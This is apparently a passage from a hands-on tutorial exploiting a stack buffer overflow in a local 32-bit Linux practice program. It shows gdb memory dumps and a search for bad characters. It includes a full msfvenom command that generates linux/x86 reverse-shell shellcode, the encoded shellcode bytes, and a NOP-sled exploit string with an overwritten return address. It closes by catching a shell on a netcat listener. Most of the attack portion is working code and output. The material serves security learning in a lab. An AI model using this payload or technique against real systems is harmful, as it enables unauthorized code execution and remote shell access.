0xffffd660: 0xa2 0xa3 0xa4 0xa5 0xa6 0xa7 0xa8 0xa9
0xffffd668: 0xaa 0xab 0xac 0xad 0xae 0xaf 0xb0 0xb1
0xffffd670: 0xb2 0xb3 0xb4 0xb5 0xb6 0xb7 0xb8 0xb9
0xffffd678: 0xba 0xbb 0xbc 0xbd 0xbe 0xbf 0xc0 0xc1
0xffffd680: 0xc2 0xc3 0xc4 0xc5 0xc6 0xc7 0xc8 0xc9
0xffffd688: 0xca 0xcb 0xcc 0xcd 0xce 0xcf 0xd0 0xd1
0xffffd690: 0xd2 0xd3 0xd4 0xd5 0xd6 0xd7 0xd8 0xd9
0xffffd698: 0xda 0xdb 0xdc 0xdd 0xde 0xdf 0xe0 0xe1
0xffffd6a0: 0xe2 0xe3 0xe4 0xe5 0xe6 0xe7 0xe8 0xe9
0xffffd6a8: 0xea 0xeb 0xec 0xed 0xee 0xef 0xf0 0xf1
0xffffd6b0: 0xf2 0xf3 0xf4 0xf5 0xf6 0xf7 0xf8 0xf9
0xffffd6b8: 0xfa 0xfb 0xfc 0xfd 0xfe 0xff 0x66 0x66 ; and our EIP
0xffffd6c0: 0x66 0x66 0x00 0x53 0x48 0x45 0x4c 0x4c
0xffffd6c8: 0x3d 0x2f 0x62 0x69 0x6e 0x2f 0x62 0x61
0xffffd6d0: 0x73 0x68 0x00 0x50 0x59 0x45 0x4e 0x56
0xffffd6d8: 0x5f 0x53 0x48 0x45 0x4c 0x4c 0x3d 0x62
0xffffd6e0: 0x61 0x73 0x68 0x00 0x47 0x56 0x4d 0x5f
--Type <RET> for more, q to quit, c to continue without paging--
0xffffd6e8: 0x56 0x45 0x52 0x53 0x49 0x4f 0x4e 0x3d
0xffffd6f0: 0x31 0x2e 0x30 0x2e 0x32 0x32 0x00 0x47
0xffffd6f8: 0x56 0x4d 0x5f 0x50 0x41 0x54 0x48 0x5f
0xffffd700: 0x42 0x41 0x43 0x4b 0x55 0x50 0x3d 0x2f
0xffffd708: 0x68 0x6f 0x6d 0x65 0x2f 0x62 0x6c 0x6e
0xffffd710: 0x6b 0x6e 0x2f 0x2e 0x67 0x76 0x6d 0x2f
0xffffd718: 0x62 0x69 0x6e 0x3a 0x2f 0x75 0x73 0x72
0xffffd720: 0x2f 0x6c 0x6f 0x63 0x61 0x6c 0x2f 0x62
0xffffd728: 0x69 0x6e 0x3a 0x2f 0x75 0x73 0x72 0x2f
0xffffd730: 0x62 0x69 0x6e 0x3a 0x2f 0x62 0x69 0x6e
0xffffd738: 0x3a 0x2f 0x75 0x73 0x72 0x2f 0x6c 0x6f
0xffffd740: 0x63 0x61 0x6c 0x2f 0x67 0x61 0x6d 0x65
0xffffd748: 0x73 0x3a 0x2f 0x75 0x73 0x72 0x2f 0x67
0xffffd750: 0x61 0x6d 0x65 0x73 0x3a 0x2f 0x75 0x73
0xffffd758: 0x72 0x2f 0x6c 0x6f 0x63 0x61 0x6c 0x2f
0xffffd760: 0x67 0x6f 0x2f 0x62 0x69 0x6e 0x00 0x50
0xffffd768: 0x57 0x44 0x3d 0x2f 0x68 0x6f 0x6d 0x65
0xffffd770: 0x2f 0x62 0x6c 0x6e 0x6b 0x6e 0x2f 0x63
0xffffd778: 0x00 0x4c 0x4f 0x47 0x4e 0x41 0x4d 0x45
0xffffd780: 0x3d 0x62 0x6c 0x6e 0x6b 0x6e 0x00 0x58
0xffffd788: 0x44 0x47 0x5f 0x53 0x45 0x53 0x53 0x49
0xffffd790: 0x4f 0x4e 0x5f 0x54 0x59 0x50 0x45 0x3d
0xffffd798: 0x74 0x74 0x79 0x00 0x5f 0x3d 0x2f 0x75
0xffffd7a0: 0x73 0x72 0x2f 0x62 0x69 0x6e 0x2f 0x67
0xffffd7a8: 0x64 0x62 0x00 0x4d 0x4f 0x54 0x44 0x5f
0xffffd7b0: 0x53 0x48 0x4f 0x57 0x4e 0x3d 0x70 0x61
0xffffd7b8: 0x6d 0x00 0x4c 0x49 0x4e 0x45 0x53 0x3d
0xffffd7c0: 0x33 0x37 0x00 0x48 0x4f 0x4d 0x45 0x3d
0xffffd7c8: 0x2f 0x68 0x6f 0x6d 0x65 0x2f 0x62 0x6c
0xffffd7d0: 0x6e 0x6b 0x6e 0x00 0x4c 0x41 0x4e 0x47
0xffffd7d8: 0x3d 0x65 0x6e 0x5f 0x55 0x53 0x2e 0x55
0xffffd7e0: 0x54 0x46 0x2d 0x38 0x00 0x4c 0x53 0x5f
0xffffd7e8: 0x43 0x4f 0x4c 0x4f 0x52 0x53 0x3d 0x72
0xffffd7f0: 0x73 0x3d 0x30 0x3a 0x64 0x69 0x3d 0x30
0xffffd7f8: 0x31 0x3b 0x33 0x34 0x3a 0x6c 0x6e 0x3d
0xffffd800: 0x30 0x31 0x3b 0x33 0x36 0x3a 0x6d 0x68
--Type <RET> for more, q to quit, c to continue without paging--
0xffffd808: 0x3d 0x30 0x30 0x3a 0x70 0x69 0x3d 0x34
0xffffd810: 0x30 0x3b 0x33 0x33 0x3a 0x73 0x6f 0x3d
0xffffd818: 0x30 0x31 0x3b 0x33 0x35 0x3a 0x64 0x6f
0xffffd820: 0x3d 0x30 0x31 0x3b 0x33 0x35 0x3a 0x62
0xffffd828: 0x64 0x3d 0x34 0x30 0x3b 0x33 0x33 0x3b
0xffffd830: 0x30 0x31 0x3a 0x63 0x64 0x3d 0x34 0x30
0xffffd838: 0x3b 0x33 0x33 0x3b 0x30 0x31 0x3a 0x6f
0xffffd840: 0x72 0x3d 0x34 0x30 0x3b 0x33 0x31 0x3b
0xffffd848: 0x30 0x31 0x3a 0x6d 0x69 0x3d 0x30 0x30
0xffffd850: 0x3a 0x73 0x75 0x3d 0x33 0x37 0x3b 0x34
0xffffd858: 0x31 0x3a 0x73 0x67 0x3d 0x33 0x30 0x3b
0xffffd860: 0x34 0x33 0x3a 0x63 0x61 0x3d 0x33 0x30
0xffffd868: 0x3b 0x34 0x31 0x3a 0x74 0x77 0x3d 0x33
0xffffd870: 0x30 0x3b 0x34 0x32 0x3a 0x6f 0x77 0x3d
0xffffd878: 0x33 0x34 0x3b 0x34 0x32 0x3a 0x73 0x74
0xffffd880: 0x3d 0x33 0x37 0x3b 0x34 0x34 0x3a 0x65
0xffffd888: 0x78 0x3d 0x30 0x31 0x3b 0x33 0x32 0x3a
0xffffd890: 0x2a 0x2e 0x74 0x61 0x72 0x3d 0x30 0x31
0xffffd898: 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x74 0x67
0xffffd8a0: 0x7a 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a
0xffffd8a8: 0x2a 0x2e 0x61 0x72 0x63 0x3d 0x30 0x31
0xffffd8b0: 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x61 0x72
0xffffd8b8: 0x6a 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a
0xffffd8c0: 0x2a 0x2e 0x74 0x61 0x7a 0x3d 0x30 0x31
0xffffd8c8: 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x6c 0x68
0xffffd8d0: 0x61 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a
0xffffd8d8: 0x2a 0x2e 0x6c 0x7a 0x34 0x3d 0x30 0x31
0xffffd8e0: 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x6c 0x7a
0xffffd8e8: 0x68 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a
0xffffd8f0: 0x2a 0x2e 0x6c 0x7a 0x6d 0x61 0x3d 0x30
0xffffd8f8: 0x31 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x74
0xffffd900: 0x6c 0x7a 0x3d 0x30 0x31 0x3b 0x33 0x31
0xffffd908: 0x3a 0x2a 0x2e 0x74 0x78 0x7a 0x3d 0x30
0xffffd910: 0x31 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x74
0xffffd918: 0x7a 0x6f 0x3d 0x30 0x31 0x3b 0x33 0x31
0xffffd920: 0x3a 0x2a 0x2e 0x74 0x37 0x7a 0x3d 0x30
--Type <RET> for more, q to quit, c to continue without paging--
0xffffd928: 0x31 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x7a
0xffffd930: 0x69 0x70 0x3d 0x30 0x31 0x3b 0x33 0x31
0xffffd938: 0x3a 0x2a 0x2e 0x7a 0x3d 0x30 0x31 0x3b
0xffffd940: 0x33 0x31 0x3a 0x2a 0x2e 0x64 0x7a 0x3d
0xffffd948: 0x30 0x31 0x3b 0x33 0x31 0x3a 0x2a 0x2e
0xffffd950: 0x67 0x7a 0x3d 0x30 0x31 0x3b 0x33 0x31
0xffffd958: 0x3a 0x2a 0x2e 0x6c 0x72 0x7a 0x3d 0x30
0xffffd960: 0x31 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x6c
0xffffd968: 0x7a 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a
0xffffd970: 0x2a 0x2e 0x6c 0x7a 0x6f 0x3d 0x30 0x31
0xffffd978: 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x78 0x7a
0xffffd980: 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a 0x2a
0xffffd988: 0x2e 0x7a 0x73 0x74 0x3d 0x30 0x31 0x3b
0xffffd990: 0x33 0x31 0x3a 0x2a 0x2e 0x74 0x7a 0x73
0xffffd998: 0x74 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a
0xffffd9a0: 0x2a 0x2e 0x62 0x7a 0x32 0x3d 0x30 0x31
0xffffd9a8: 0x3b 0x33 0x31 0x3a 0x2a 0x2e 0x62 0x7a
0xffffd9b0: 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a 0x2a
0xffffd9b8: 0x2e 0x74 0x62 0x7a 0x3d 0x30 0x31 0x3b
0xffffd9c0: 0x33 0x31 0x3a 0x2a 0x2e 0x74 0x62 0x7a
0xffffd9c8: 0x32 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a
0xffffd9d0: 0x2a 0x2e 0x74 0x7a 0x3d 0x30 0x31 0x3b
0xffffd9d8: 0x33 0x31 0x3a 0x2a 0x2e 0x64 0x65 0x62
0xffffd9e0: 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a 0x2a
0xffffd9e8: 0x2e 0x72 0x70 0x6d 0x3d 0x30 0x31 0x3b
0xffffd9f0: 0x33 0x31 0x3a 0x2a 0x2e 0x6a 0x61 0x72
0xffffd9f8: 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a 0x2a
0xffffda00: 0x2e 0x77 0x61 0x72 0x3d 0x30 0x31 0x3b
0xffffda08: 0x33 0x31 0x3a 0x2a 0x2e 0x65 0x61 0x72
0xffffda10: 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a 0x2a
0xffffda18: 0x2e 0x73 0x61 0x72 0x3d 0x30 0x31 0x3b
0xffffda20: 0x33 0x31 0x3a 0x2a 0x2e 0x72 0x61 0x72
0xffffda28: 0x3d 0x30 0x31 0x3b 0x33 0x31 0x3a 0x2a
0xffffda30: 0x2e 0x61 0x6c 0x7a 0x3d 0x30 0x31 0x3b
(gdb)
looking at the start of the chars, we can see that the nullbyte has been ignore, as suggested by warning at runtime. So we can remove the nullbyte in our character list, and keep looking for other disallowed characters
0xffffd5b8: 0x55 0x55 0x55 0x55 0x55 0x55 0x55 0x55
0xffffd5c0: 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08
0xffffd5c8: 0x00 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 0x11
0xffffd5d0: 0x12 0x13 0x14 0x15 0x16 0x17 0x18 0x19
we can see that were we expected 0x09 it was replaced by 0x00, we can remove this one from the list too and keep going like that looking through our list if anything has been replaced by 0x00, in our case we end up with:
\x00\x09\x0a\x20
Generating our actual shellcode#
now that we know the exact offset of the EIP, the cpu architecture we’re running on, the platform, and the bad characters, we can go ahead an generate our shellcode
msfvenom lhost=127.0.0.1 lport=31337 \
-p linux/x86/shell_reverse_tcp \
--format c \
--arch x86 \
--platform linux \
--bad-chars "\x00\x09\x0a\x20" \
--out shellcode
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 95 (iteration=0)
x86/shikata_ga_nai chosen with final size 95
Payload size: 95 bytes
Final size of c file: 425 bytes
Saved as: shellcode
unsigned char buf[] =
"\xda\xca\xd9\x74\x24\xf4\xb8\x54\xc2\xcf\x23\x5d\x31\xc9"
"\xb1\x12\x83\xc5\x04\x31\x45\x13\x03\x11\xd1\x2d\xd6\xa8"
"\x0e\x46\xfa\x99\xf3\xfa\x97\x1f\x7d\x1d\xd7\x79\xb0\x5e"
"\x8b\xdc\xfa\x60\x61\x5e\xb3\xe7\x80\x36\x3b\x18\x73\xc7"
"\xab\x1a\x73\xbd\x42\x92\x92\xf1\xf3\xf4\x05\xa2\x48\xf7"
"\x2c\xa5\x62\x78\x7c\x4d\x13\x56\xf2\xe5\x83\x87\xdb\x97"
"\x3a\x51\xc0\x05\xee\xe8\xe6\x19\x1b\x26\x68";
we can now put that into one string
"\xda\xca\xd9\x74\x24\xf4\xb8\x54\xc2\xcf\x23\x5d\x31\xc9\xb1\x12\x83\xc5\x04\x31\x45\x13\x03\x11\xd1\x2d\xd6\xa8\x0e\x46\xfa\x99\xf3\xfa\x97\x1f\x7d\x1d\xd7\x79\xb0\x5e\x8b\xdc\xfa\x60\x61\x5e\xb3\xe7\x80\x36\x3b\x18\x73\xc7\xab\x1a\x73\xbd\x42\x92\x92\xf1\xf3\xf4\x05\xa2\x48\xf7\x2c\xa5\x62\x78\x7c\x4d\x13\x56\xf2\xe5\x83\x87\xdb\x97\x3a\x51\xc0\x05\xee\xe8\xe6\x19\x1b\x26\x68"
and addapt our exploit with that shellcode
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xd9\x74\x24\xf4\xb8\x54\xc2\xcf\x23\x5d\x31\xc9\xb1\x12\x83\xc5\x04\x31\x45\x13\x03\x11\xd1\x2d\xd6\xa8\x0e\x46\xfa\x99\xf3\xfa\x97\x1f\x7d\x1d\xd7\x79\xb0\x5e\x8b\xdc\xfa\x60\x61\x5e\xb3\xe7\x80\x36\x3b\x18\x73\xc7\xab\x1a\x73\xbd\x42\x92\x92\xf1\xf3\xf4\x05\xa2\x48\xf7\x2c\xa5\x62\x78\x7c\x4d\x13\x56\xf2\xe5\x83\x87\xdb\x97\x3a\x51\xc0\x05\xee\xe8\xe6\x19\x1b\x26\x68" + "\x66" * 4')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/blnkn/c/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xd9\x74\x24\xf4\xb8\x54\xc2\xcf\x23\x5d\x31\xc9\xb1\x12\x83\xc5\x04\x31\x45\x13\x03\x11\xd1\x2d\xd6\xa8\x0e\x46\xfa\x99\xf3\xfa\x97\x1f\x7d\x1d\xd7\x79\xb0\x5e\x8b\xdc\xfa\x60\x61\x5e\xb3\xe7\x80\x36\x3b\x18\x73\xc7\xab\x1a\x73\xbd\x42\x92\x92\xf1\xf3\xf4\x05\xa2\x48\xf7\x2c\xa5\x62\x78\x7c\x4d\x13\x56\xf2\xe5\x83\x87\xdb\x97\x3a\x51\xc0\x05\xee\xe8\xe6\x19\x1b\x26\x68" + "\x66" * 4')
Breakpoint 1, 0x565561ad in bowfunc ()
we can check the stack again at our breakpoint and see if the end of the NOPs corresponds with the beginning of our shellcode as expected, and it does
0xffffd640: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd648: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd650: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0x90
0xffffd658: 0x90 0x90 0x90 0x90 0x90 0x90 0x90 0xda
0xffffd660: 0xca 0xd9 0x74 0x24 0xf4 0xb8 0x54 0xc2
0xffffd668: 0xcf 0x23 0x5d 0x31 0xc9 0xb1 0x12 0x83
0xffffd670: 0xc5 0x04 0x31 0x45 0x13 0x03 0x11 0xd1
0xffffd678: 0x2d 0xd6 0xa8 0x0e 0x46 0xfa 0x99 0xf3
0xffffd680: 0xfa 0x97 0x1f 0x7d 0x1d 0xd7 0x79 0xb0
verifying that we still controll the EIP after passing the breakpoint
(gdb) info register eip
eip 0x66666666 0x66666666
so we can now point the EIP to somewhere in the NOPs sections, the execution will then just skip the nops until it finds our shellcode. 
we’re gonna jump to 0xffffd648, because this is something endian, we’re gonna have to spell that backwards
0xffffd648 -> "\x48\xd6\xff\xff"
lets have a netcat listener going and run our BOF
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xd9\x74\x24\xf4\xb8\x54\xc2\xcf\x23\x5d\x31\xc9\xb1\x12\x83\xc5\x04\x31\x45\x13\x03\x11\xd1\x2d\xd6\xa8\x0e\x46\xfa\x99\xf3\xfa\x97\x1f\x7d\x1d\xd7\x79\xb0\x5e\x8b\xdc\xfa\x60\x61\x5e\xb3\xe7\x80\x36\x3b\x18\x73\xc7\xab\x1a\x73\xbd\x42\x92\x92\xf1\xf3\xf4\x05\xa2\x48\xf7\x2c\xa5\x62\x78\x7c\x4d\x13\x56\xf2\xe5\x83\x87\xdb\x97\x3a\x51\xc0\x05\xee\xe8\xe6\x19\x1b\x26\x68" + "\x48\xd6\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/blnkn/c/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xd9\x74\x24\xf4\xb8\x54\xc2\xcf\x23\x5d\x31\xc9\xb1\x12\x83\xc5\x04\x31\x45\x13\x03\x11\xd1\x2d\xd6\xa8\x0e\x46\xfa\x99\xf3\xfa\x97\x1f\x7d\x1d\xd7\x79\xb0\x5e\x8b\xdc\xfa\x60\x61\x5e\xb3\xe7\x80\x36\x3b\x18\x73\xc7\xab\x1a\x73\xbd\x42\x92\x92\xf1\xf3\xf4\x05\xa2\x48\xf7\x2c\xa5\x62\x78\x7c\x4d\x13\x56\xf2\xe5\x83\x87\xdb\x97\x3a\x51\xc0\x05\xee\xe8\xe6\x19\x1b\x26\x68" + "\x48\xd6\xff\xff"')
Breakpoint 1, 0x565561ad in bowfunc ()
(gdb) c
Continuing.
process 36361 is executing new program: /usr/bin/dash
Error in re-setting breakpoint 1: Function "bowfunc" not defined.
boom!
blnkn@amd64:~$ nc -lvnp 31337
listening on [any] 31337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35310
id
uid=1000(blnkn) gid=1000(blnkn) groups=1000(blnkn),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),108(netdev),113(bluetooth),118(lpadmin),121(scanner)
pwd
/home/blnkn/c